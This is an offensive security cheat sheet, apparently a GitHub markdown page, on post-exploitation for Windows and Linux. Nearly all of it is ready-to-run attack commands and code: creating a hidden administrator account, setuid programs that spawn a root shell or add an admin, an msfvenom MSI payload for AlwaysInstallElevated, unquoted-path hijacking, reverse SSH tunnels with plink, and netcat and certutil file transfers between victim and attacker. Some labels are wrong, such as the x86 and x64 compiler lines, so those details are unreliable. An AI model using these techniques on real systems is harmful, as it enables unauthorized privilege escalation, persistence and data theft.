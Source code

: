 ```yaml
---
title: Exploitation
---
```


[Home](./)

_Ensuring you don't have to re-exploit over and over again_

## Executing in Memory - TMPFS

```bash
mount | grep ^tmp

# Example:
# tmpfs on /dev/shm type tmpfs (rw,nosuid,nodev)
# tmpfs on /tmp type tmpfs (rw,nosuid,nodev)
#
# Beware of the "noexec" flag; executing programs will fail
```

## Get full TTY shell
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Switch user

```bash
su $USER
```

## Run Single command as a different user

### Linux

```bash
sudo -u $USER $cmd
```

### Windows 

```bash
echo "$PASSWORD" | runas /profile /user:$USER “$COMMAND”
```

+ [sudo.cmd](./assests/sudo.cmd) <sup><sub>[[copy&paste](assets/files/sudo.cmd.txt)]


## Windows Privilege Escalation

### windows-exploit-suggester.py

+ [windows-exploit-suggester.py](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) <sup><sub>[[archive](assets/files/windows-exploit-suggester.py)]

```bash
# Victim
systeminfo # Copy & Paste this into a file on the attacker

# Attacker
python windows-exploit-suggester.py --update

python windows-exploit-suggester.py --database 20XX-YY-ZZ-mssb.xlsx --systeminfo systeminfo.txt
```

### Creating Windows Admin Account

```bash
# Victim
net user /add jack sparrow
net localgroup administrators jack /add

# Connect with
rdesktop -u jack -p sparrow [IP-ADDRESS]
```

### Setuid.c
<sup><sub>[[archive](assets/files/win_setuid.c]

If you can overwrite a binary that'll be run with priviledge, run this.

```c
#include <stdlib.h>
int main()
{
    int i;
    i = system("net localgroup administrators theusername /add");
    return 0;
}
```

### Windows Service / DLL Templates

+ [windows_dll.c](https://github.com/sagishahar/scripts/blob/master/windows_dll.c) <sup><sub>[[archive](assets/files/windows_dll.c)]

+ [windows_service.c](https://github.com/sagishahar/scripts/blob/master/windows_service.c) <sup><sub>[[archive](assets/files/windows_service.c)]

#### Cross-compiling for Windows

##### C & C++

```bash
# Setup
apt install mingw-w64

# x86
x86_64-w64-mingw32-gcc [src.c] [-libraries] -o [dst]
i686-w64-mingw32-gcc [src.c] [-libraries] -o [dst] -lws2_32

# x64
i686-w64-mingw32-gcc [src.c] [-libraries] -o [dst]
```

##### C#

```bash
# Setup 
# Add repo with https://www.mono-project.com/download/stable/
sudo apt-get install mono-complete msbuild mono-roslyn

# Building
msbuild [src.sln]
```

#### Using Python Scripts without Python installed
[PyInstaller](https://github.com/pyinstaller/pyinstaller) <sup><sub>[[archive](assets/files/PyInstaller-3.6.zip)]
```bash
pyinstaller yourprogram.py
```

### Always Install Elevated
```bash
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
reg query HKCU\Software\Policies\Microsoft\Windows\Installer

# If both of these are 0x1 - you can install msi packages as system.
# Generate MSI Payload with:
msfvenom [blah blah blah] -f msi -o setup.msi

# Execute it with:
msiexec /quiet /qn /i setup.msi
```

### Unquoted Paths

When windows sees the a service is pointed to `C:\Program Files\Something Here\service.exe` (**without quotes around it**), it will try to run the following in order:

```bash
C:\Program.exe
C:\Program Files\Something.exe
C:\Program Files\Something Here\service.exe
```

If you make sure one of these exists before the legitimate is called, you can get code execution.

### Attacking From The Inside

Some services can only be accessed from inside the victim itself. List all active network connections with:

```bash
netstat -ano
```

Then port forward to them using reverse ssh proxy.

+ [Putty](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)
+ [Plink](https://the.earth.li/~sgtatham/putty/latest/w32/plink.exe) <sup><sub>[[archive (32-bit)](assets/files/plink.exe)]

```bash
plink.exe -l $LUSER -pw $LPASS $LHOST -R $LPORT:127.0.0.1:$RPORT
# L == Attacker
# R == Victim
```

### Vulnerable Scheduled Tasks
```bash
# Victim
schtasks /query /fo LIST /v > schtask.txt

# Attacker
cat schtask.txt | grep "SYSTEM\|Task To Run" | grep -B 1 SYSTEM
```

## Linux Privilege Escalation

### Setuid.c
<sup><sub>[[archive](assets/files/lin_setuid.c]

If you can overwrite a binary that'll be run with priviledge, run this.

```c
int main(void)
{
    setgid(0);
    setuid(0);
    execl("/bin/sh", "sh", 0);
}
```

### Setuid.c

## Exfiltration

+ SSH Copy (scp)

```bash
scp user@hostname:/path/to/src user@hostname:/path/to/dst
```

+ Netcat

```bash
# Victim
nc -nvlp $RPORT > out.file

# Attacker
nc -nv $RHOST $RPORT < in.file
```

+ exe2bat

```bash
# Convert a windows executable to a copy and paste set of commands
wine $(locate exe2bat.exe) nc.exe nc.txt
```

+ certutil.exe

```bash
certutil.exe -urlcache -split -f “$URL” $FILENAME
```

+ [zip.vbs](assets/files/zip.vbs) <sup><sub>[[copy&paste](assets/files/zip.vbs.txt)]

```bash
CScript zip.vbs $SRC $DEST
```

+ [wget.vbs](assets/files/wget.vbs) <sup><sub>[[copy&paste](assets/files/wget.vbs.txt)]

```bash
CScript wget.vbs $SRC $DEST
```

## Fun Tips

### Linux Write a file without a text editor

```bash
cat <<EOF> [file]
```